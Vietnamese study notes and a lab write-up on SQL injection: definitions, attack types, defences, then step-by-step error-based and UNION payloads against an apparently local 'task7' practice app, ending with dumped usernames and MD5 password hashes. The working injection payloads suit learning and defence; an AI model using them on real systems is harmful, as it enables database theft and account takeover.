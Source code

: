 # Task 7

# tìm hiểu về SQLi
## 1. SQLi
là cuộc tấn công mà attacker can thiệp vào cơ sở dữ liệu thông qua các câu truy vấn để truy xuất, sửa đổi, xóa hoặc gây ảnh hướng đến database hay nội dung thao tác của người dùng.
## 2. Hậu quả của SQLi
SQLi đơn giản có thể giúp người tấn công thêm, sửa xóa dữ liệu trong database
Một cuộc tấn công SQLi thành công có thể dẫn đến RCE khiến những dữ liệu nhạy cảm bị truy cập trái pháp. Tài khoản ngân hàng, tài khoản mạng xã hội, số điện thoại, thông tin cá nhân,... Nhiều vụ vi phạm dữ liệu nghiêm trọng gần đây là kết quả của các cuộc tấn công SQLi. Không chỉ vậy nó còn làm ảnh hưởng đến uy tín của đơn vị chủ quản. Trong một số trường hợp kẻ tấn công có thể chiếm dược 1 backdoor vào hệ thống của tổ chức dẫn đến sự xâm phạm kéo dài không được chú ý gây khó khăn cho việc điều tra.
## 3. SQLi hoạt động
* đầu tiên attacker sẽ tìm các điểm yếu trên web như input, parameter,...
* sau đó attacker sử dụng các câu lệnh SQL cùng với các ký tự khác để xác định cách truy cập vào database
* cuối dùng dùng các câu lệnh SQL để tấn công
## 4. Các loại SQL 
![](https://i.imgur.com/sFIM3rU.png)

có 3 loại chính là
* in-band SQLi: được chia làm 2 nhánh nhỏ
    * error based SQLi: Dựa vào lỗi trong câu lệnh SQL để xác định cấu trúc database từ đó tìm ra cách truy cập vào database
    * Union based SQLi: Sử dụng câulệnh UNION trong các truy vấn SQL để truy cập vào database
* Blind(inferential) SQLi: các phản hồi nhận được không chứa kết quả của truy vấn. Blind lại được chia làm 2 loại:
    * Boolean: câu truy vấn trả về đúng hoặc sai từ đó attacker điều chỉnh câu truy vấn
    * time-based: attacker sẽ sử dụng câu truy vấn làm database trả về kết quả trong 1 thời ịnh tùy thuộc vào thuộc tính đúng sai, từ đó điều chỉnh câu truy vấn để khai thác.
* out-of-band SQLi: là một loại SQLi mà kẻ tấn công không nhận được phản hồi từ ứng dụng bị tấn công trên cùng một kênh. mà thay vào đó có thể kiến ứng dụng gửi dữ liệu đến một điểm từ xa mà họ quản lý. Kiểu tấn công này chỉ có thể xảy ra khi mà bạn sử dụngcác lệnh kích hoạt các yêu cầu DNS hoặc HTTP. Tuy nhiên, đó là trường hợp của tất cả các máy chủ SQL phổ biến.
## 5. Cách phòng chống SQLi
* Lọc dữ liệu từ người dùng: Cách phòng chống này tương tự như XSS. Ta sử dụng filter để lọc các kí tự đặc biệt (; ” ‘) hoặc các từ khoá (SELECT, UNION) do người dùng nhập vào. Nên sử dụng thư viện/function được cung cấp bởi framework. Viết lại từ đầu vừa tốn thời gian vừa dễ sơ sót.
* Không cộng chuỗi để tạo SQL: Sử dụng parameter thay vì cộng chuỗi. Nếu dữ liệu truyền vào không hợp pháp, SQL Engine sẽ tự động báo lỗi, ta không cần dùng code để check.
* Không hiển thị exception, message lỗi: Hacker dựa vào message lỗi để tìm ra cấu trúc database. Khi có lỗi, ta chỉ hiện thông báo lỗi chứ đừng hiển thị đầy đủ thông tin về lỗi, tránh hacker lợi dụng.
* Phân quyền rõ ràng trong DB: Nếu chỉ truy cập dữ liệu từ một số bảng, hãy tạo một account trong DB, gán quyền truy cập cho account đó chứ đừng dùng account root hay sa. Lúc này, dù hacker có inject được sql cũng không thể đọc dữ liệu từ các bảng chính, sửa hay xoá dữ liệu.
* Backup dữ liệu thường xuyên: Các cụ có câu “cẩn tắc vô áy náy”. Dữ liệu phải thường xuyên được backup để nếu có bị hacker xoá thì ta vẫn có thể khôi phục được.
## 6. cách khai thác SQL 
### cách phát hiện
* Gửi dấu nháy đơn ' , nháy kép ", chấm phẩy ;, ký tự comment như --, #,... và chờ kết quả phản hồi của web.
* Gửi các điều kiện boolean như OR 1=1, OR 1=2 ... và xem phản hồi.
* Gửi payload thử thời gian trả về như SLEEP(5), pg_sleep(10), DELAY '0:0:10' ...

### Khai thác:
#### error-based:
Thực hiện chèn các câu truy vấn độc hại với mục tiêu thông qua input, sau đó dựa vào thông báo lỗi để thu thập thông tin về cấu trúc của database như tên database, tên bảng số cột tên cột và thậm chí là thông tin trong bảng.


#### Union-based:
Trả về kết quả của các câu lệnh SELECT từ bảng khác với điều kiện trả về cùng số cột và kiểu dữ liệu của cột.

Xác định số cột cần để tấn công: Sử dụng ORDER BY để thu thập thông tin về database ví dụ ' ORDER BY x-- với x là số cột cần thử và từ phản hồi tìm được số cột.

có 2 cách thường được sử dụng để tìm số cột của bảng.
 sử dụng `UNION SELECT`:

```
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```
 sử dụng `ORDER BY`
```
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
```

truy suất db tên bảng, tên cột:
```
#Database names
-1' UNION SELECT 1,2,GROUP_CONCAT(0x7c,schema_name,0x7c) FROM information_schema.schemata

#Tables of a database
-1' UNION SELECT 1,2,3,GROUP_CONCAT(0x7c,table_name,0x7C) FROM information_schema.tables WHERE table_schema=[database]

#Column names
-1' UNION SELECT 1,2,3,GROUP_CONCAT(0x7c,column_name,0x7C) FROM information_schema.columns WHERE table_name=[table name]
```

#### blind SQLi:
không thể nhìn thấy kết quả truy vấn lỗi nhưng có thể phân biệt được phản hồi đúng hay sai dựa vào nội dung trả về trên trang. Khi đó có thể truy xuất tường ký tự của dữ liệu trong db: 
```
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```
##### ERROR blind SQLi:
Đây là trường hợp tương tự như trước nhưng thay vì phân biệt giữa phản hồi đúng/sai từ truy vấn thì có thể phân biệt giữa lỗi trong truy vấn SQL hay không (có thể do lỗi HTTP server). Do đó, trong trường hợp này có thể buộc một SQLerror mỗi khi bạn đoán đúng ký tự:

`AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- - `

Time-base SQLi:
Đây là trường hợp không phân biệt được truy vấn dựa vào ngữ cảnh của trang web. Tuy nhiên có thể biết được kết quả truy vấn đúng hay sai bằng cách xác định thời gian trả về từ database:
`1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#`

## Thực hành nàoooo
### Error based:
tại màn hình đăng nhập. em đã nhập payload: `''` thử để kiểm tra và nhập một mật khẩu bất kì vì web yêu cầu phải điền mật khẩu. sau đó em thấy web hiện error lên là tín hiệu để có thể khai thác.
![](https://i.imgur.com/7m2UG1c.png)
đầu tiên là tìm tên bảng, em sẽ sử dụng payload: `' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- `

ở đây tận dụng lỗi Duplicate entry for key 'group_key' key trùng nhay ở đây sẽ là 
![](https://i.imgur.com/PnyABCb.png)
vậy là từ việc web báo lỗi, chúng ta đã biết được tên database là 'task7'
tiếp theo là tên bảng, em sử dụng payload tương tự bên trên. `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='task7'),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/PEUUVCa.png)
vậy là thu được table name là 'user' 
 tiếp theo chúng ta sẽ tìm từng cột của bảng user đó. Em sử dụng payload:
`' or 1=1 group by concat((select column_name from information_schema.columns where table_name='user' and table_schema='task7' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

limit sẽ cho em lấy được tên của từng cột một. tăng dần giá trị của limit lên em sẽ thu được những cột khác nhau.

![](https://i.imgur.com/D5w8V4S.png)
![](https://i.imgur.com/9UGL3BP.png)
![](https://i.imgur.com/8ACWe5Q.png)
với limit 3,1 web trả về NULL tức là bảng chỉ có 3 cột lần lượt là id, username, pasword

bây giờ ta sẽ khai thác thẳng vào thông tin của những người dùng.
đầu tiên em sẽ tìm username và password của người đầu tiên bằng payload: 
`' or 1=1 group by concat((select user from user limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/ahHawYp.png)
`' or 1=1 group by concat((select password from user limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/EraR9Xp.png)
vậy ta thu được : 
username: admin
password: 0cc175b9c0f1b6a831c399e269772661
đem password đi md5decode ta được pass ban đầu là a

để khai thác các đối tượng khác trong bảng thì ta chỉ cần tiếp tục làm tương tự. thay đổi giá trị k tại limit k,1.

### UNION
... 
nhập payload vào username như error-based
đầu tiên em thử payload: `1' ORDER BY 1-- ` 
![](https://i.imgur.com/DUPeQT4.png)
web trả về null. 
tương tự với 
`1' ORDER BY 2-- `
`1' ORDER BY 3-- `
nhưng đến `1' ORDER BY 4-- ` thì web báo lỗi.
![](https://i.imgur.com/KZ4Ytp1.png)
 Vậy là chúng ta biết được rằng bảng có 3 cột.
 sau đó em sẽ kiểm tra xem dữ liệu có thể truy xuất được từ cột nào trong 3 cột bằng payload:
 `' UNION SELECT 'a','b','c' -- `
 ![](https://i.imgur.com/w7NTsQV.png)
vậy là cả 3 cột đều có thể truy suất được dữ liệu. 
tiếp theo em sẽ tìm tên database bằng payload: 
`' UNION SELECT database(),null,null -- `
![](https://i.imgur.com/C7YA1qL.png)
từ vị trí đầu ta thu được tên database là task7, tiếp theo là tìm tên bảng trong database bằng payload: 
`' UNION SELECT GROUP_CONCAT(table_name),null,null FROM information_schema.tables WHERE table_schema='task7'-- `
![](https://i.imgur.com/6AIZQrr.png)
thu được tên bảng là user
tiếp tục tìm các cột trong database task7 bảng user với payload: `' UNION SELECT GROUP_CONCAT(column_name),null,null FROM information_schema.columns WHERE table_name='user' and table_schema='task7'-- `
![](https://i.imgur.com/eSA6Tse.png)
thu được tên 3 cột lần lượt là id,username,password. việc cuối cùng là truy xuất tất cả thông tin trong bảng thôi. payload: 
`' UNION SELECT GROUP_CONCAT(CONCAT(id,'~',username,'~',password)),null,null FROM user -- `
![](https://i.imgur.com/wqyG2NE.png)
kết quả thu hoạch:
user:admin
pwd:0cc175b9c0f1b6a831c399e269772661
user:test1
pwd:5a105e8b9d40e1329780d62ea2265d8a
user:123
pwd:202cb962ac59075b964b07152d234b70
yeahhh!


